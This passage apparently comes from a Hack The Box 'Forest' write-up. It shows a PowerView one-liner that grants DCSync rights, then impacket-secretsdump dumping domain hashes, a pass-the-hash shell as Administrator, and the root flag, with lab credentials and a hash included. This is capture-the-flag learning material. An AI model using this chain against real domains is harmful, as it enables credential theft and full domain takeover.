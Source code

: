 ```powershell
Add-DomainObjectAcl -TargetIdentity testlab.local -Rights DCSync
```

This command hangs, and I couldn&rsquo;t figure out why. So I did some research and found that someone was using the following command and getting success:

```powershell
Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco; $username = "htb\svc-alfresco"; $password = "s3rvice"; $secstr = New-Object -TypeName System.Security.SecureString; $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}; $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr; Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
```

Lets break down the command so that I actually learn something, splitting it into sections:

1.  `Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco`

    This command adds our user to the &ldquo;Exchange Windows Permissions&rdquo; group.
2.  `$username = &ldquo;htb\svc-alfresco&rdquo;; $password = &ldquo;s3rvice&rdquo;`
    
    Here we're setting environment variables for our username and password.
3.  `$secstr = New-Object -TypeName System.Security.SecureString; $password.ToCharArray()`

    This is creating a secure string object based on that password environment variable.
4.  `ForEach-Object {$secstr.AppendChar($\_)}; $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr;` -
5.  `Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync`

    Finally, this executes the function to grant our user the DCSync rights.

The reason for this one-liner is that some process is resetting the user&rsquo;s DCSync rights on a regular interval, so we need to have everything done quickly.

I execute the one-liner and immediately send off the following command from my kali machine: `impacket-secretsdump svc-alfresco:s3rvice@10.10.10.161 | tee secretsdump.txt` and it dumps all of the password hashes, including the one for the Administrator account. I grab the Admin hash and use it to authenticate to the machine.

```text
Documents/forest/loot
❯ impacket-wmiexec -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 htb.local/Administrator@10.10.10.161
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
htb\administrator

C:\>
```

```text
C:\>cd Users/Administrator/Desktop
C:\Users\Administrator\Desktop>type root.txt
4c5d531d9ec2bcc07fff398ae31eae98
```
